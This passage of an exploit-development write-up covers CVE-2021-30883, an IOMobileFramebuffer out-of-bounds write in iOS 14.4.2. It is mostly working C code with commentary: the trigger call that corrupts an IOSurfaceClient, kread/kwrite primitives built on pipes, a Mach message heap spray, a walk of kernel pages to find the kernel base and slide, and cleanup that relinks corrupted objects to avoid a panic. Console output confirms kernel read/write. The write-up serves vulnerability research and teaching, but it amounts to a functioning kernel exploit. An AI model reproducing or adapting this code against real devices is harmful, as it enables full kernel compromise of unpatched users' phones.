    uint64_t scalars[2] = { 0 };

    char *input = (char*)malloc(input_size);
    memset(input, 0x41, input_size);

	// control IOSurface ptr
	*(uint64_t *)(input + 0x150) = 0x8182838400000000 + ((KHEAP_DATA_MAPPABLE_LOC+0x10) & 0xffffffff);
	*(uint64_t *)(input + 0x158) = 0x1337133813391340;	
	*(uint64_t *)(input + 0x154) = KHEAP_DATA_MAPPABLE_LOC+0x10;

	int *pArr = (int*)input;
	pArr[0] = 0x3;          // sub-sub selector
    pArr[1] = 0xffffffff;   // has to be non-zero
    pArr[2] = 0x40000000;   // #iterations in the outer loop (new_from_data)
    pArr[3] = 2;
    pArr[8] = 2;
    pArr[89] = 40;        // #iterations in the inner loop (set_table)

	// do oob write to corrupt IOSurfaceClient
	ret = IOConnectCallMethod(iomfb_uc, 78,
                        scalars, 2,
                        input, input_size,
                        NULL, NULL,
                        NULL, NULL);
					
	return 0;
}	
	
	
int main(int argc, char *argv[], char *envp[]) {
  ...
	
	trigger_vuln(iomfb_uc);

	// find out corrupted IOSurfaceClient's surf_id
	uint32_t krw_surf_id = 0;
	uint32_t krw_rfd = 0;
	uint32_t krw_wfd = 0;
	for (int i = 0; i < 50; i++)
    {
        uint32_t surf_id = last_free_surfid - i;
        uint32_t pipefd_leak = IOSurfaceRoot_get_surface_use_count(iosurface_uc, surf_id);
        if(pipefd_leak != 0) {
            krw_rfd = pipefd_leak & 0xffff;
            krw_wfd = (pipefd_leak >> 16) & 0xFFFF;
            printf("[+] Found corrupted IOSurfaceClient's surf_id = 0x%x\n", surf_id);
            printf("[+] pipefd_leak = 0x%x, krw_rfd = 0x%x, krw_wfd = 0x%x\n", pipefd_leak, krw_rfd, krw_wfd);

            krw_surf_id = surf_id;
            break;
        }
        
        surf_id = last_free_surfid + i;
        pipefd_leak = IOSurfaceRoot_get_surface_use_count(iosurface_uc, surf_id);
        if(pipefd_leak != 0) {
            krw_rfd = pipefd_leak & 0xffff;
            krw_wfd = (pipefd_leak >> 16) & 0xFFFF;
            printf("[+] Found corrupted IOSurfaceClient's surf_id = 0x%x\n", surf_id);
            printf("[+] pipefd_leak = 0x%x, krw_rfd = 0x%x, krw_wfd = 0x%x\n", pipefd_leak, krw_rfd, krw_wfd);

            krw_surf_id = surf_id;
            break;
        }
    }
    ...
```

	

## 6. Kernel Read/Write Test

We close all pipes except for those specifically used for kernel r/w operations, and then verify these capabilities by calling selectors provided by `IOSurface`.

As previously explained, **because we control the `IOSurface` pointer**, we have established sufficient level of indirection to perform arbitrary kernel r/w.

```cpp
int kernel_rw_init(io_connect_t uc, uint32_t surf_id, int read_pipe, int write_pipe)
{
    _uc = uc;
    _surf_id = surf_id;
    _read_pipe = read_pipe;
    _write_pipe = write_pipe;
    
    return 0;
}

uint32_t kread32(uint64_t kaddr)
{
    uint8_t buf[kernel_page_size];
    
    read(_read_pipe, buf, kernel_page_size-1);
    
    *(uint64_t *)(buf + 0x10 + 0xC0) = kaddr - 0x14;
    
    write(_write_pipe, buf, kernel_page_size-1);
    
    return IOSurfaceRoot_get_surface_use_count(_uc, _surf_id);
}

uint64_t kread64(uint64_t kaddr)
{
    uint8_t b[8];
    
    *(uint32_t *)b = kread32(kaddr);
    *(uint32_t *)(b + 4) = kread32(kaddr + 4);
    
    return *(uint64_t *)b;
}

void kwrite64(uint64_t kaddr, uint64_t val)
{
    uint8_t buf[kernel_page_size];
    
    read(_read_pipe, buf, kernel_page_size-1);
    
    *(uint64_t *)(buf + 0x10 + 0x360) = kaddr; // See IOSurface::setIndexedTimestamp
    
    write(_write_pipe, buf, kernel_page_size-1);
    
    IOSurfaceRoot_set_indexed_timestamp(_uc, _surf_id, val);
}

...

int main(int argc, char *argv[], char *envp[]) {
  ...

	//close all pipe except krw related
	close_pipes(pipefds, total_pipes, true, krw_rfd, krw_wfd);

	//check if krw works
	kernel_rw_init(iosurface_uc, krw_surf_id, krw_rfd, krw_wfd);

	// Is kread working?
	uint64_t kaddr = KHEAP_DATA_MAPPABLE_LOC + 0x2000;
	uint64_t val = kread64(kaddr);
	printf("kaddr: 0x%llx -> val: 0x%llx\n", kaddr, val);
	if(val != 0x4242424242424242) {
		printf("kernel read failed! :(\n");
		spinning();
	}

	// Is kwrite working?
	printf("Writing 0xcafebabe13371338 to kaddr(=0x%llx)\n", kaddr);
	kwrite64(kaddr, 0xcafebabe13371338);
	val = kread64(kaddr);
	printf("kaddr: 0x%llx -> val: 0x%llx\n", kaddr, val);
	if(val != 0xcafebabe13371338) {
		printf("kernel write failed! :(\n");
		spinning();
	}
	printf("Confirmed working kernel read/write!\n");
	...
```

## 7. Finding kernel base

We allocate port messages, which are assigned to the `KHEAP_DATA_BUFFERS` type.
If we spray port messages approximately `0x2a00` times, one of them will likely be allocated at higher address relative to `KHEAP_DATA_MAPPABLE_LOC`. This allows us to obtain the address of `ikm_header` structure.

Starting from this structure, we sequentially access `msgh_remote_port`, `data.receiver`, and `is_task` fields to retrieve the task address of our own currently executing process.

Since it's now possible to retrieve port addresses, we proceed to access `vtable` by traversing structure fields starting from `IOSurfaceRootUserClient` object.

We extract address of `IOUserClient::getTargetAndTrapForIndex` function from `vtable`, align this address down to start of its page, and then iteratively read kernel memory—decrementing address by the page size—until we locate kernel base.

```cpp
// Ian Beer
mach_msg_size_t message_size_for_kalloc_size(mach_msg_size_t kalloc_size) {
    return ((3 * kalloc_size) / 4) - 0x74;
}

kern_return_t send_message(mach_port_t destination, void *buffer, mach_msg_size_t size) {
    mach_msg_size_t msg_size = sizeof(struct simple_msg) + size;
    struct simple_msg *msg = malloc(msg_size);
    
    memset(msg, 0, sizeof(struct simple_msg));
    
    msg->hdr.msgh_remote_port = destination;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_bits = MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = msg_size;
    
    memcpy(&msg->buf[0], buffer, size);
    
    kern_return_t ret = mach_msg(&msg->hdr, MACH_SEND_MSG, msg_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
    if (ret) {
        printf("[-] failed to send message\n");
        mach_port_destroy(mach_task_self(), destination);
        free(msg);
        return ret;
    }
    free(msg);
    return KERN_SUCCESS;
}

...

int main(int argc, char *argv[], char *envp[]) {
  ...
  
	#define port_cnt 0x2a00
	mach_port_t ports[port_cnt] = {};
	// setup ports
    for (int i = 0; i < port_cnt; i++) {
        ports[i] = new_mach_port();
    }

	// spray kheap data ports
	int port_i = 0;
	#define POP_PORT() ports[port_i++]
	for(int i = 0; i < port_cnt; i++) {
		mach_port_t current_port = POP_PORT();
		mach_msg_size_t msg_size = message_size_for_kalloc_size(kernel_page_size) - sizeof(struct simple_msg);
		void *data = calloc(1, msg_size);
		memset(data, 0x43, msg_size);
		send_message(current_port, data, msg_size);
	}

	// find out where sprayed kmsg and obtain msgh_remote_port kaddr
	uint64_t guessed_ikm_header = KHEAP_DATA_MAPPABLE_LOC + 0x4000 * 512 + 0xfd0;
	uint64_t msgh_remote_port = 0;
	for(int i = 0; i < 100; i++) {
		// https://github.com/wh1te4ever/xnu_1day_practice/blob/main/CVE-2020-3837/helper/find_port.c#L31
		uint32_t off_mach_msg_header_t_msgh_remote_port = 0x8;	// (lldb) p/x offsetof(mach_msg_header_t, msgh_remote_port)
		uint64_t kmsgdata = guessed_ikm_header + 0x20;
		if(kread64(kmsgdata) == 0x4343434343434343) {
			msgh_remote_port = kread64(guessed_ikm_header + off_mach_msg_header_t_msgh_remote_port); 
			printf("Found one of sprayed kmsg! ikm_header = 0x%llx, ikm_header->msgh_remote_port = 0x%llx\n", guessed_ikm_header, msgh_remote_port);
			break;
		}
		guessed_ikm_header += 0x4000;
	}
	if(msgh_remote_port == 0) {
		printf("Failed to find out sprayed kmsg...\n");
		spinning();
	}

	// Obtaining our task kaddr
	// msgh_remote_port's data.receiver	// 0x60 = p/x offsetof(ipc_port, data.receiver); data.receiver's type = ipc_space*
	uint64_t data_receiver = kread64(msgh_remote_port + 0x60);
	printf("data_receiver = 0x%llx\n", data_receiver);

	// data.receiver's is_task			// 0x30 = p/x offsetof(ipc_space, is_task); is_task's type = task*
	uint64_t our_task = kread64(data_receiver + 0x30);
	printf("our_task = 0x%llx\n", our_task);

	// clean our sprayed kheap data ports
    for (int i = 0; i < port_cnt; i++) {
        mach_port_destroy(mach_task_self(), ports[i]);
    }

	// Obtain kernel base via IOSurfaceRootUserClient_vtab
    uint64_t iosurface_port = find_port(our_task, iosurface_uc);
	uint64_t surfRoot = kread64(iosurface_port + off_ipc_port_ip_kobject); 
	uint64_t IOSurfaceRootUserClient_vtab = kread64(surfRoot);
	IOSurfaceRootUserClient_vtab |= 0xffffff8000000000; // in case it has PAC
	uint64_t getExternalTrapForIndex_func = kread64(IOSurfaceRootUserClient_vtab + 8 * 0xb8);	//__ZN12IOUserClient24getTargetAndTrapForIndexEPP9IOServicej; LDR X8, [X8,#0x5C0]; 8*0xb8=0x5c0
	getExternalTrapForIndex_func |= 0xffffff8000000000;
	printf("getExternalTrapForIndex_func = 0x%llx\n", getExternalTrapForIndex_func);

	// walking down kpages to find kernel base
	uint64_t page = trunc_page_kernel(getExternalTrapForIndex_func);
	uint64_t kbase = 0;
	uint64_t kslide = 0;
	while (true) {
        if (kread64(page) == 0x0100000cfeedfacf && (kread64(page + 8) == 0x0000000200000000 || kread64(page + 8) == 0x0000000200000002)) {
            kbase = page;
            kslide = kbase - 0xfffffff007004000;
            break;
        }
        page -= kernel_page_size;
    }
	printf("Got kernel slide = 0x%llx, kernel base = 0x%llx\n", kslide, kbase);
	...
```

## 8. Exploit cleanup: Fixing prev and next pointer of IOSurfaceClient

Before releasing IOSurface objects using `IOSurfaceRoot_release_all`, we must ensure that corrupted `IOSurfaceClient` and its adjacent objects are not deallocated.

Since each `IOSurfaceClient` object contains `prev` and `next` pointers, we can modify them to bypass corrupted object, effectively causing the chain to skip over it.

```cpp
void IOSurfaceRoot_release_all(io_connect_t uc)
{
    for (uint32_t surf_id = 1; surf_id < 0x3FFF; ++surf_id)
    {
        // printf("%s: surf_id = 0x%x\n", __FUNCTION__, surf_id);
        // usleep(100000);
        IOSurfaceRoot_release_surface(uc, surf_id);
    }

    for(int i = 0; i < 0x1000; i++) {
        gIOSurface_ids[i] = 0;
    }
    gIOSurface_id_count = 0;
}

int main(int argc, char *argv[], char *envp[]) {
  ...
	// Clean up!
	// Relink surfaceClient to prevent kernel panic
	uint64_t IOSurfaceRootUserClient_port = find_port(our_task, iosurface_uc);
	uint64_t IOSurfaceRootUserClient_addr = kread64(IOSurfaceRootUserClient_port + off_ipc_port_ip_kobject);
	uint64_t surfaceClients = kread64(IOSurfaceRootUserClient_addr + 0x118);
	printf("surfaceClients = 0x%llx\n", surfaceClients);

	uint64_t surfaceClient = kread64(surfaceClients + (krw_surf_id-20)*8);
	uint64_t surfaceClient2 = kread64(surfaceClients + (krw_surf_id+20)*8);

	// relink surfaceClient
	kwrite64(surfaceClient+0x20, surfaceClient2+0x18);	//overwrite next ptr;
	kwrite64(surfaceClient2+0x18, surfaceClient);		//overwrite prev ptr;

	//remove_surfaceclient_in_surfaceclients
	for(int k = (krw_surf_id-19); k < (krw_surf_id+20); k++) {
		if(k == krw_surf_id) continue;
		kwrite64(surfaceClients + k*8, 0);
	}

	//byebye krw
	kwrite64(surfaceClients + krw_surf_id*8, 0);
	close(krw_rfd);
	close(krw_wfd);

	IOSurfaceRoot_release_all(iosurface_uc);

cleanup:
	IOServiceClose(iosurface_uc);
	printf("done!\n");
	return 0;
}

```

Below is picture created to help understand `prev` and `next` pointer of each `IOSurfaceClient` object.

In `IOSurfaceClient` object, `next` pointer is located at offset `+0x20`, while `prev` pointer is at `+0x18`.


# Running result

```cpp
[i] offsets selected for iOS 14.4.2
Exploiting CVE-2021-30883 (first journey from poc to exploit by @wh1te4ever!)
[*] AppleCLCD service: 0x2907
[*] AppleCLCD userclient: 0x2803
release, iosurf_id = 0x78
release, iosurf_id = 0xdc
release, iosurf_id = 0x140
release, iosurf_id = 0x1a4
release, iosurf_id = 0x208
release, iosurf_id = 0x26c
release, iosurf_id = 0x2d0
release, iosurf_id = 0x334
release, iosurf_id = 0x398
release, iosurf_id = 0x3fc
release, iosurf_id = 0x460
release, iosurf_id = 0x4c4
release, iosurf_id = 0x528
release, iosurf_id = 0x58c
release, iosurf_id = 0x5f0
release, iosurf_id = 0x654
[+] Found corrupted IOSurfaceClient's surf_id = 0x656
[+] pipefd_leak = 0x6320631, krw_rfd = 0x631, krw_wfd = 0x632
kaddr: 0xffffffe4ce97a000 -> val: 0x4242424242424242
Writing 0xcafebabe13371338 to kaddr(=0xffffffe4ce97a000)
kaddr: 0xffffffe4ce97a000 -> val: 0xcafebabe13371338
Confirmed working kernel read/write!
Found one of sprayed kmsg! ikm_header = 0xffffffe4cf178fd0, ikm_header->msgh_remote_port = 0xffffffe1a0188498
data_receiver = 0xffffffe19e0a9ba8
our_task = 0xffffffe19e8c4628
getExternalTrapForIndex_func = 0xfffffff00c7679d4
Got kernel slide = 0x472c000, kernel base = 0xfffffff00b730000
surfaceClients = 0xffffffe4cc304000
done!
```

# Demo Video

[https://www.youtube.com/watch?v=O0I1r4vPtew](https://www.youtube.com/watch?v=O0I1r4vPtew)


# References

[https://github.com/potmdehex/slides/blob/main/Zer0Con_2022_Tales_from_the_iOS_macOS_Kernel_Trenches.pdf](https://github.com/potmdehex/slides/blob/main/Zer0Con_2022_Tales_from_the_iOS_macOS_Kernel_Trenches.pdf)

[https://github.com/saaramar/IOMFB_integer_overflow_poc](https://github.com/saaramar/IOMFB_integer_overflow_poc)